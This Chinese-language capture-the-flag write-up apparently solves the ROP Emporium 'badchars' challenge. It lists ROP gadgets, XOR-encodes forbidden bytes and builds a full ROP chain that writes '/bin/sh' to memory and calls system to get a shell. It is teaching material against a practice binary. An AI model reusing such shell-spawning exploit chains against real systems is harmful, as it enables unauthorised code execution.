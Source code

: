 ## Reverse
和前一题 3-write4 解法差不多，只是这次又多了 badchars 检测，题目特别提示 payload 不能包含以下任何一个字元：
```
badchars are: b i c / <space> f n s
```

先来看看 ROP Gadgets 有哪些可以用的。

<br>

## ROP Gadgets
这次我们发现可利用的 gadgets 有四个：
```
(1) 0x08048893 : mov dword ptr [edi], esi ; ret
(2) 0x08048899 : pop esi ; pop edi ; ret
(3) 0x08048890 : xor byte ptr [ebx], cl ; ret
(4) 0x08048896 : pop ebx ; pop ecx ; ret
```

Gadget3 有个 xor，我们可以利用 xor cipher 的特性，在 bof 时先把 payload 中的 badchars 替换成程式允许的字元。
```
let xor_key = 5
let 3 be a badchar
let 6 be an allowed char

3 ^ xor_key = 6
6 ^ xor_key = 3
```

到之后 ROP Chain 开始运行时，再利用 xor 把 badchars 还原回来。

<br>

## Pwn
具体细节都和上一题差不多，只是 ROP Chain 里多了通过 xor 还原 badchars 的流程，此处不赘述。

设计 payload：
```
11 * 'AAAA' +
gadget2     + '/bin'    + buf       + gadget1 +
gadget2     + '/sh\x00' + (buf + 4) + gadget1 +
gadget4     + (buf+0)   + xor_key   + gadget3 +
gadget4     + (buf+1)   + xor_key   + gadget3 +
gadget4     + (buf+2)   + xor_key   + gadget3 +
gadget4     + (buf+3)   + xor_key   + gadget3 +
gadget4     + (buf+4)   + xor_key   + gadget3 +
gadget4     + (buf+5)   + xor_key   + gadget3 +
system_plt  + 'AAAA'    + buf
```

xor_key 我直接选 0x3（瞎挑的），然后 xor 过后的字元都刚好不在 badchars 内 （汗），所以就选 0x3 吧。

中间 gadget4 ... gadget3 那几行，因为 `/bin/sh\x00` 刚好前6个字都是 badchars，后面的都是 goodchars，所以这边刚好是 +0 ~ +5

至于 buf 的位址要选用哪个，就一样通过 `readelf -S badchars` 列出程式的所有 sections，然后找到一个可写的当 buf 来存放 "/bin/sh\x00"。
